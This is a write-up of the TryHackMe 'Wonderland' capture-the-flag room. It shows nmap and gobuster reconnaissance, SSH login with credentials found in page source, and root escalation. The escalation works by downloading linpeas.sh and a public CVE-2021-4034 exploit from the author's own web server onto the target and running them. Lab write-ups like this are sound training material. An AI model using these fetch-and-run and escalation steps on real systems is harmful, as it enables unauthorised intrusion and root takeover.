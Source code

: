 # TryHackMe Writeup - Wonderland

This is a writeup for the TryHackMe machine "Wonderland".
Link: <https://tryhackme.com/room/wonderland>

This machine does not offer many information in advance. So I began with my basic reconnaissance routine after adding

```
[Machine IP] machine.thm
```

to my "/etc/hosts" file with the command

```
sudo nano /etc/hosts
```

## Task 1: Reconnaissance

I initiated a nmap scan over all ports. I also used a nmap script which discovers vulnerabilities. I safed the output in a log file on my desktop:

```
sudo nmap -p- -A -Pn --script vuln machine.thm > ./Desktop/nmap.log
```

The nmap scan took a while and gave me the following output:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:7.6p1: 
|       EXPLOITPACK:98FE96309F9524B8C84C508837551A19    5.8     https://vulners.com/exploitpack/EXPLOITPACK:98FE96309F9524B8C84C508837551A19    *EXPLOIT*
|       EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    5.8     https://vulners.com/exploitpack/EXPLOITPACK:5330EA02EBDE345BFC9D6DDDD97F9E97    *EXPLOIT*
|       EDB-ID:46516    5.8     https://vulners.com/exploitdb/EDB-ID:46516      *EXPLOIT*
|       EDB-ID:46193    5.8     https://vulners.com/exploitdb/EDB-ID:46193      *EXPLOIT*
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       1337DAY-ID-32328        5.8     https://vulners.com/zdt/1337DAY-ID-32328        *EXPLOIT*
|       1337DAY-ID-32009        5.8     https://vulners.com/zdt/1337DAY-ID-32009        *EXPLOIT*
|       SSH_ENUM        5.0     https://vulners.com/canvas/SSH_ENUM     *EXPLOIT*
|       PACKETSTORM:150621      5.0     https://vulners.com/packetstorm/PACKETSTORM:150621      *EXPLOIT*
|       EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    5.0     https://vulners.com/exploitpack/EXPLOITPACK:F957D7E8A0CC1E23C3C649B764E13FB0    *EXPLOIT*
|       EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    5.0     https://vulners.com/exploitpack/EXPLOITPACK:EBDBC5685E3276D648B4D14B75563283    *EXPLOIT*
|       EDB-ID:45939    5.0     https://vulners.com/exploitdb/EDB-ID:45939      *EXPLOIT*
|       EDB-ID:45233    5.0     https://vulners.com/exploitdb/EDB-ID:45233      *EXPLOIT*
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       1337DAY-ID-31730        5.0     https://vulners.com/zdt/1337DAY-ID-31730        *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|       PACKETSTORM:151227      0.0     https://vulners.com/packetstorm/PACKETSTORM:151227      *EXPLOIT*
|       MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS-        0.0     https://vulners.com/metasploit/MSF:AUXILIARY-SCANNER-SSH-SSH_ENUMUSERS- *EXPLOIT*
|_      1337DAY-ID-30937        0.0     https://vulners.com/zdt/1337DAY-ID-30937        *EXPLOIT*
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /r/: Potentially interesting folder
|_  /img/: Potentially interesting folder
```

I decided to visit the webpage. I used the Bursuit browser to be able to have a look on the requests if it is necessary.

When accessing the webpage, the following screen appears:

![grafik.png](./images/wonderland/grafik.png)

While inspecting the image, I discovered that the image is stored in a "/img" directory which might be accessible:

![grafik (2).png](./images/wonderland/grafik%20%282%29.png)

This was also found by the nmap scan before.

I also started an enumeration of the website to detect possible subpages with gobuster:

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://machine.thm
```

Gobuster found the following subpages:

```
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
/r                    (Status: 301) [Size: 0] [--> r/]
```

The "/img" directory only contained some images. I also tried enumeration on the "/img" directory but no subpages were discovered.

So I checked the "/r" directory and found the following:

![grafik (3).png](./images/wonderland/grafik%20%283%29.png)

It seems like I am on the right track. I also tried enumeration on this subpage:

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://machine.thm/r  
```

It found a "/a" subpage:

```
/a                    (Status: 301) [Size: 0] [--> a/]
/index.html           (Status: 301) [Size: 0] [--> ./]
```

I had an idea where this was leading and made an educated guess and tried to access the page "machine.thml/r/a/b/b/i/t". It worked and this page appeared:

![grafik (4).png](./images/wonderland/grafik%20%284%29.png)

I once again inspected the source code of the webpage and discovered the following:

![grafik (5).png](./images/wonderland/grafik%20%285%29.png)

In an invisible paragraph there is a username and password combination stored. Maybe this is for ssh access to the server?

## Task 2: Get access

I tried to login via ssh with the previously discovered credentials:

```
ssh alice@machine.thm
```

It worked. I am logged in as alice to wonderland. 

![grafik (6).png](./images/wonderland/grafik%20%286%29.png)

I tried to access the root.txt file but the access is denied. So I had to dig deeper to become root.

## Task 3: Privilege Escalation

I already have a folder with some useful scripts which contains the "linpeas.sh". The "linpeas.sh" file can be downloaded here: <https://github.com/carlospolop/PEASS-ng/releases/tag/20231029-83b8fbe1>

I then started a simple webserver in this folder:

```
python3 -m http.server
```

On the wonderland machine I then downloaded the linpeas.sh file with

```
wget [MY IP]:8000/linpeas.sh
```

gave it execution permissions with

```
chmod u+x linpeas.sh
```

and executed it with

```
./linpeas.sh
```

The "linpeas.sh" script is a linux privilege escalation script which searches for possible ways to escalate the current user privileges to root privileges. The script tells us that the host is possibly vulnerable to CVE-2021-4034

![grafik (7).png](./images/wonderland/grafik%20%287%29.png)

I had a quick research and found the following exploit which I downloaded and provided on my webserver as well: <https://github.com/joeammond/CVE-2021-4034.git>

I then downloaded the python exploit file to the wonderland machine with 

```
wget [MY IP]:8000/CVE-2021-4034.py
```

gave it execution permissions with

```
chmod u+x CVE-2021-4034.py
```

and executed it with

```
./CVE-2021-4034.py
```

which opened a shell.

With 

```
whoami
```

I got the reply "root". So we got a root shell. 

## Task 4: Capture the flags

Now we should be able to retrieve all flags easily be searching for them:

The first flag is called user.txt and I searched for it with the call

```
sudo find user.txt / | grep user.txt
```

The flag is located in "/root/user.txt".

I already found the second flag and it is located in the home directory of alice.

In my opinion this is a nice little CTF machine but it is very easy to solve. So the TryHackMe score "medium" is not really correct and it should be easy instead.
